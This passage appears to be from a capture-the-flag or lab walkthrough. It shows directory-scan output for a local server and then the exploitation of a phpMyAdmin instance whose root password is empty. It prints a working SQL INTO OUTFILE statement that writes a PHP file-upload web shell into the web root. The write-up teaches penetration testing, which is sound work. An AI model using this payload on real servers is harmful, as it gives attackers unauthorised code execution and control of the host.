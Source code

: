 ```
[05:04:00] 403 -  291B  - /.htaccessOLD2                                   
[05:04:00] 403 -  291B  - /.htpasswds
[05:04:00] 403 -  291B  - /.htpasswd_test
[05:04:00] 403 -  291B  - /.httr-oauth
[05:04:07] 403 -  291B  - /Trace.axd::$DATA                                 
[05:04:15] 200 -    4KB - /adminer/                                         
[05:04:20] 403 -  291B  - /cgi-bin/                                         
[05:04:21] 500 -  634B  - /cgi-bin/printenv.pl                              
[05:04:28] 200 -  198KB - /favicon.ico                                      
[05:04:30] 200 -    6KB - /index                                            
[05:04:30] 200 -    6KB - /index.php                                        
[05:04:30] 403 -  291B  - /index.php::$DATA                                 
[05:04:30] 200 -    6KB - /index.pHp                                        
[05:04:30] 200 -    6KB - /index.php/login/
[05:04:30] 200 -    6KB - /index.php.
[05:04:38] 200 -    1KB - /phpmyadmin/README                                
[05:04:38] 200 -   15KB - /phpmyadmin/doc/html/index.html                   
[05:04:38] 200 -   27KB - /phpmyadmin/ChangeLog                             
[05:04:38] 301 -  338B  - /phpmyadmin  ->  http://192.168.75.189:8080/phpmyadmin/
[05:04:39] 200 -    2KB - /phpsysinfo/                                      
[05:04:39] 200 -   15KB - /phpmyadmin/                                      
[05:04:40] 200 -   15KB - /phpmyadmin/index.php
[05:04:43] 200 -    2KB - /shell                                            
[05:04:43] 200 -    2KB - /shell.php
[05:04:43] 200 -    2KB - /shell/
```

* Notice how I had to use the -proxy flag

## Exploitation

### Weak Password/Authentication

After bypassing the proxy, we are presented with a phpmyadmin login screen that can be found at:

<mark style="color:yellow;">http://192.168.75.189:8080/phpmyadmin/</mark>

* The credentials for root are null

### PHPMyAdmin

We see that we can create databases with our new permissions and in a HTB CTF, I was able to exploit a PHPMyAdmin server by placing a reverse shell into a table.&#x20;

Can we do the same here?

1. Create a new table
2. Select "SQL" on the bar at the top
3. Place the following into it

```
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';

```
